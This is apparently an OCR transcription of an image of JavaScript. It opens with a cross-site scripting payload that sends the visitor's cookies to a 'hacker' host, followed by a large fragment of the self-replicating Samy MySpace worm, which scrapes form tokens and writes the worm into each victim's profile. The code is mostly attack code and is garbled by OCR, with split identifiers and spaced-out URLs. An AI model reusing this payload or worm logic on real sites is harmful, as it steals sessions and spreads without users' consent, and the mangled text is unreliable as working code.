 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
            J.setRequestHeader('Content - Length', BK.length)
        }
        J.send(BK); return true
    }
    function findIn(BF, BB, BC) {
        var R = BF.indexOf(BB) + BB.length;
        var S = BF.substring(R, R + 1024);
        return S.substring(0, S.indexOf(BC))
    }
    function getHiddenParameter(BF, BG) {
        return findIn(BF, 'name = ' + B + BG + B + 'value = ' + B, B)
    }
    function getXMLObj() {
        var Z = false;
        if (window.XMLHttpRequest) {
            try {
                Z = new XMLHttpRe - quest()
            } catch(e) {
                Z = false
            }
        } else if (window.ActiveXObject) {
            try {
                Z = new ActiveXOb - ject('Msxml2.XMLHTTP')
            } catch (e) {
                try {
                    Z = new ActiveXOb - ject('Microsoft.XMLHTTP')
                } catch (e) {
                    Z = false
                }
            }
        }
        return Z
    }
    var AA = g();
    var AB = AA.indexOf('m' + 'ycode');
    var AC = AA.substring(AB, AB + 4096);
    var AD = AC.indexOf('D' + 'IV');
    var AE = AC.substring(0, AD);
    var AF;
    if (AE) {
        AE = AE.replace('jav' + 'a', A + 'jav' + 'a');
        AE = AE.replace('exp' + 'r)', 'exp' + 'r)' + A);
        AF = 'but most of all,samy is my hero. < d' + 'iv id = ' + AE + 'D' + 'IV > '
    }
    var AG;
    function getHome() {
        if (J.readyState != 4) {
            return
        }
        var AU = J.responseText;
        AG = findIn(AU, 'P' + 'rofileHeroes', ' < /td>');
        AG = AG.substring(61, AG.length);
        if (AG.indexOf('samy') == -1) {
            if (AF) {
                AG += AF;
                var AR = getFromURL(AU, 'Mytoken');
                var AS = new Ar - ray();
                AS['interestLabel'] = 'heroes';
                AS['submit'] = 'Preview';
                AS['interest'] = AG;
                J = getXMLObj();
                httpSend('/index.cfm ? fuseaction = profile.previewInterests & Mytoken = ' + AR,
                    postHero, 'POST', paramsToString(AS))
```